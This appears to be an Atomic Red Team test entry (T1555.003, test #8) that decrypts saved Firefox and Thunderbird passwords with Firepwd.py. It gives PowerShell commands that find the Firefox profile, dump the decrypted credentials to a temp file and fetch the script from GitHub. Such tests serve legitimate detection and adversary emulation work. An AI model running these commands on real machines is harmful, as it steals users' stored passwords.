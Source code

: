 


<br/>
<br/>

## Atomic Test #8 - Decrypt Mozilla Passwords with Firepwd.py
Firepwd.py is a script that can decrypt Mozilla (Thunderbird, Firefox) passwords.
Upon successful execution, the decrypted credentials will be output to a text file, as well as displayed on screen.

**Supported Platforms:** Windows


**auto_generated_guid:** dc9cd677-c70f-4df5-bd1c-f114af3c2381





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| Firepwd_Path | Filepath for Firepwd.py | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;Firepwd.py|
| Out_Filepath | Filepath to output results to | string | $env:temp&#92;T1555.003Test8.txt|
| VS_CMD_Path | Filepath to Visual Studio Build Tools Command prompt | string | C:&#92;Program Files (x86)&#92;Microsoft Visual Studio&#92;2022&#92;BuildTools&#92;VC&#92;Auxiliary&#92;Build&#92;vcvars64.bat|
| Python_Path | Filepath to python | string | C:&#92;Program Files&#92;Python310&#92;python.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
$PasswordDBLocation = get-childitem -path "$env:appdata\Mozilla\Firefox\Profiles\*.default-release\"
cmd /c #{Firepwd_Path} -d $PasswordDBLocation > #{Out_Filepath}
cat #{Out_Filepath}
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "#{Out_Filepath}" -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: Firepwd must exist at #{Firepwd_Path}
##### Check Prereq Commands:
```powershell
if (Test-Path "#{Firepwd_Path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
Invoke-WebRequest "https://raw.githubusercontent.com/lclevy/firepwd/167eabf3b88d5a7ba8b8bc427283f827b6885982/firepwd.py" -outfile "#{Firepwd_Path}"
```
##### Description: Firefox profile directory must be present
##### Check Prereq Commands:
```powershell
if (get-childitem -path "$env:appdata\Mozilla\Firefox\Profiles\*.default-release\" -erroraction silentlycontinue) {exit 0} else {exit 1}
```
